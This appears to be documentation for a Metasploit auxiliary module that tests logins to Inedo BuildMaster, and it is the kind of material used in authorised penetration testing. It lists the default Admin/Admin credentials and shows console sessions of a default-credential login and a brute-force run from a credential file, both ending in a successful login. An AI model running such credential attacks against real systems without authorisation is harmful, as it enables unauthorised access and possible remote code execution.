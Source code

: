 This module allows you to authenticate to Inedo BuildMaster, an application release automation tool. The default credentials for BuildMaster are Admin/Admin. Gaining privileged access to a BuildMaster can lead to remote code execution.

## Verification Steps

1. Do: ```use auxiliary/scanner/http/buildmaster_login```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: Set credentials
5. Do: ```run```
6. You should see the module attempting to log in.

## Scenarios

Attempt to login with the default credentials.
```
msf > use auxiliary/scanner/http/buildmaster_login
msf auxiliary(buildmaster_login) > set RHOSTS 10.0.0.8
RHOSTS => 10.0.0.8
msf auxiliary(buildmaster_login) > run

[+] 10.0.0.8:81 - Identified BuildMaster 5.7.3 (Build 1)
[*] 10.0.0.8:81 - Trying username:"Admin" with password:"Admin"
[+] SUCCESSFUL LOGIN - 10.0.0.8:81 - "Admin":"Admin"
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(buildmaster_login) >
```
Brute force with credentials from file.
```
msf > use auxiliary/scanner/http/buildmaster_login 
msf auxiliary(buildmaster_login) > options

Module options (auxiliary/scanner/http/buildmaster_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   PASSWORD          Admin            no        Password to authenticate with
   PASS_FILE                          no        File containing passwords, one per line
   Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                             yes       The target address range or CIDR identifier
   RPORT             81               yes       The target port (TCP)
   SSL               false            no        Negotiate SSL/TLS for outgoing connections
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads
   USERNAME          Admin            no        Username to authenticate as
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output for all attempts
   VHOST                              no        HTTP server virtual host

msf auxiliary(buildmaster_login) > set RHOSTS 10.0.0.8
RHOSTS => 10.0.0.8
msf auxiliary(buildmaster_login) > set USERPASS_FILE ~/BuildMasterCreds.txt
USERPASS_FILE => ~/BuildMasterCreds.txt
msf auxiliary(buildmaster_login) > run

[+] 10.0.0.8:81 - Identified BuildMaster 5.7.3 (Build 1)
[*] 10.0.0.8:81 - Trying username:"Admin" with password:"test"
[-] FAILED LOGIN - 10.0.0.8:81 - "Admin":"test"
[*] 10.0.0.8:81 - Trying username:"Admin" with password:"wrong"
[-] FAILED LOGIN - 10.0.0.8:81 - "Admin":"wrong"
[*] 10.0.0.8:81 - Trying username:"Admin" with password:"Admin"
[+] SUCCESSFUL LOGIN - 10.0.0.8:81 - "Admin":"Admin"
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(buildmaster_login) > 
```